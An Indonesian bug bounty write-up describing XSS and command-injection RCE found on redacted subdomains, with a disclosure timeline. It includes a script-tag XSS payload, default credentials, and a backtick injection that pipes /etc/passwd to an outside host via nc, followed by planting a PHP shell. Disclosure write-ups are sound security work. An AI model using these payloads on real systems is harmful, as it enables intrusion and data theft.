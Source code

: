 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Private Program Cyber Army"
date: 2019-02-14 07:00
categories: bugbounty
---
```


### <b>Prolog</b>
Diberikan 2 alamat yang masuk dalam scope, yaitu  sub.[redacted].id dan subdomain.[redacted].id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.
- 4 XSS
- 2 RCE

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="">
</div>


Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC :
- Script : https://pastebin.com/raw/zZN1pfSY

<div align="center">
    <img src="">
</div>



### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc XXX.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="">
</div>
Lalu saya buat shell php dan eksekusi ls -lah, dan selebihnya saya dapat explorasi server lebih dalam:

RIP SS :v 
<div align="center">
    <img src="">
</div>



- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


### <b>Reference:</b>
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f

### <b>Thanks:</b>
- Ngesec
- Surabaya Hacker Link
- You!